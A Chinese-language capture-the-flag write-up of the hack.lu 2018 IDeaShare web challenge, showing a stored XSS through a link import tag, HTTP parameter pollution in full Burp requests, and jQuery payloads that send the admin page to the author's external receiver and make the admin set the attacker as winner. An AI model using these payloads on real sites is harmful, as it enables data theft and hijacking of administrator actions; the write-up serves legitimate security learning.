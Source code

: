 ```yaml
---
title: hacklu CTF 2018-IDeaShare-writeup
date: 2018-10-21 19:37:28
tags: [ctf,writeup]
---
```


## 题目描述

> A place to share your IDeas with your friends!
>
> Try to win the best IDea competition but be wary a strong force prevents any cheating.
>
> Good luck you will need it!

题目地址(2018.10.21仍可正常访问)：[IDeaShare](https://arcade.fluxfingers.net:1818/)

访问题目地址发现是一个分享想法的平台，用户登录后可以保存自己的想法，将保存的想法分享以后，管理员会进行查看，如果分享的想法被管理员评价为`Best Idea`,就会赢得`BEST IDEA COMPETITION`

## 解题思路

访问题目时，响应头中存在这样的字段`X-XSS-Protection: 0`,再加上知道管理员将会访问提交的想法，所以很容易想到构造XSS。但首先提交的想法中对许多关键字进行了过滤(诡异的过滤规则)，其次直接访问分享的想法，也并不能看到解析生效的内容。测试中发现第二个问题可以通过HTTP参数污染来进行绕过，但直到比赛结束也没有绕过第一个问题，后来听到大佬指点可以使用link标签，下面讲一下利用过程。

<!--more-->

## 解题过程

### 构造XSS

首先我们在记录想法的文本框中输入想法，这里的过滤规则非常诡异(~~是我太菜~~)，但大佬说的link标签没有被过滤，输入下面的内容，可以成功保存，没有被拦截：

```html
<link/rel=import href=https://https.zer0b.com/BlueLotus_XSSReceiver/myjs/tester.js>
```

然后我的用户id是304，所以访问下面的url地址可以看到分享的内容，测试到tester.js中的内容被执行了

```http
https://arcade.fluxfingers.net:1818/?page=view&raw&owner=304&pad=1
```

以上是XSS的部分的利用过程，但其实这个利用过程是有一些限制的：

* link标签的href属性必须引用https的资源，引用http地址时会有下面这样的提示说不安全，被阻止

  ![image-20181019215815504](./http_console_err.png)

  所以利用时最好有自己的域名，并启用https,这里我使用了`let's encrypt`设置证书(免费)

* 因为link标签引用了我们自己编写的js文件，所以我们存放js的服务器需要设置`Access-Control-Allow-Origin`头才可以使资源被正常引用，如果未设置的话报错如下，可以看到跨域引用资源被禁止了![image-20181019221619447](./access_control_err.png)

  对nginx服务器来说，config文件中增加以下配置就可以启用跨域资源共享了

  ```nginx
    add_header Access-Control-Allow-Origin *;
    add_header Access-Control-Allow-Methods 'GET, POST, OPTIONS';
    add_header Access-Control-Allow-Headers 'DNT,X-Mx-ReqToken,Keep-Alive,User-Agent,X-Requested-With,If-Modified-Since,Cache-Control,Content-Type,Authorization';
  ```

### 利用HTTP参数污染

![image-20181019222416066](./shares.png)

分享以后的想法会出现在这样的列表中，管理员会访问这个列表中的地址查看并评估我们的想法，列表中的url地址如下所示：

```html
   <a href=?page=view&owner=304&pad=3>IDea Number 3</a>
```

很明显，和前面我们构造的XSS地址格式相对比，这里缺少了一个**raw**参数，所以管理员进行访问时，看到并不是我们提交的raw格式的内容，提交的内容没有被浏览器解析，无法触发XSS

因为这个地方的url格式与我们的XSS利用地址只差了一个raw参数，所以猜测存在HTTP参数污染，利用burp构造这样的请求包(**直接在浏览器地址栏中输入%26会被转义，无法生效**)：

```http
POST /?page=idea&pad=1%26raw HTTP/1.1
Host: arcade.fluxfingers.net:1818
Connection: close
Content-Length: 110
Cache-Control: max-age=0
Origin: https://arcade.fluxfingers.net:1818
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.67 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: https://arcade.fluxfingers.net:1818/?page=idea&pad=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=l04isu07e7tg4m6gn0hsp95ses; session=b956181dfc30a872a190a76406c63e0dc9ab2c373193554c28174f6596e95aa59f41b5dd

idea=%3Clink%2Frel%3Dimport+href%3Dhttps%3A%2F%2Fhttps.zer0b.com%2FBlueLotus_XSSReceiver%2Fmyjs%2Ftester.js%3E
```

注意这里的pad名字不是1，而是`1%26raw`,发现想法保存成功，然后继续使用下面的请求进行分享操作：

```http
POST /?page=idea&pad=1%26raw HTTP/1.1
Host: arcade.fluxfingers.net:1818
Connection: close
Content-Length: 341
Cache-Control: max-age=0
Origin: https://arcade.fluxfingers.net:1818
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.67 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: https://arcade.fluxfingers.net:1818/?page=idea&pad=1%26raw
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=l04isu07e7tg4m6gn0hsp95ses; session=b956181dfc30a872a190a76406c63e0dc9ab2c373193554c28174f6596e95aa59f41b5dd

share=&g-recaptcha-response=03AMGVjXhpe6wbk65KVTuzy2kfsLDT8duce0LwPj18Mec_vBg_6GvZJaBlETmfIoFRCTS-OpEk4KPm5FzfwEAQsfnSxbv_jj80RKuppequjTau-YmmNiy_Om3tbcuJUGGz3sxjMaF75uGQqVJCWpMKua-jBED5ahDSFab2ZP_Pomi9FxVFBcSxkfgYhiu9xpT7wLLbL43rO1SeExQGRBhBp9Yp5fnBfyLFB4b6KloNQ18QmVKBDXTajuUuZoFKM_gmRZs2bu5138xged-JNAuxdpOv7HLoSLpS7ukB0R_REGv5HlQULAofOQs
```

分享成功，在分享列表中发现如下名字的IDea

![image-20181021171619823](./image-20181021171619823.png)

并且它的url地址是这样的，&符号虽然被转义了，但并不影响访问，这样admin访问这个链接将会触发XSS

```html
<a href=?page=view&owner=304&pad=1&amp;raw>IDea Number 1&amp;raw</a> 
```

**ps:参数污染这个地方也做了相应过滤，所以是没有办法在这里直接构造利用js的**

### 获取flag

在最开始的tester.js中使用了XSS平台的地址，分享后发现收到了访问请求，但并没有收到cookie

![image-20181021172716373](./httponly.png)

查看Cookie发现被设置为了httpOnly，js无法对其进行读写，所以后台无法收到cookie

![image-20181021173018469](./admin.png)

前台页面中我们发现了admin页面的地址，发现只有管理员才能访问，所以修改利用脚本，回传admin页面的内容，利用脚本内容如下：

```html
<script src="https://cdn.staticfile.org/jquery/1.10.2/jquery.min.js"></script>
<script>
    var xss_url='https://https.zer0b.com/BlueLotus_XSSReceiver/index.php';
    //admin page
    $.get("/?page=admin",async=false,function(result){
        $.post(xss_url,data="admin_content="+result,async=false);
    });
</script>
```

于是在XSS平台中可以收到包含页面内容的请求，admin页面中最重要的是下面这样一个form表单，用来设置winner的Id

```html
<form method="POST" action="?page=admin"> 
    <div class="form-group"> 
        <label for="password">Winner ID</label> 
        <input type="text" name="userid" class="form-control" /> 
    </div> 
    <button type="submit" class="btn btn-primary">Submit</button> 
</form> 
```

然后构造新的利用脚本如下，传入我的用户id，再次分享想法，将自己设置为winner

```html
<script src="https://cdn.staticfile.org/jquery/1.10.2/jquery.min.js"></script>
<script>
    var xss_url='https://https.zer0b.com/BlueLotus_XSSReceiver/index.php';
    //admin page
    $.post("/?page=admin",{ userid:"304" },async=false);
</script>
```

最后返回前台，查看`BEST IDEA COMPETITION`的结果，得到flag

![image-20181021175039661](./flag.png)
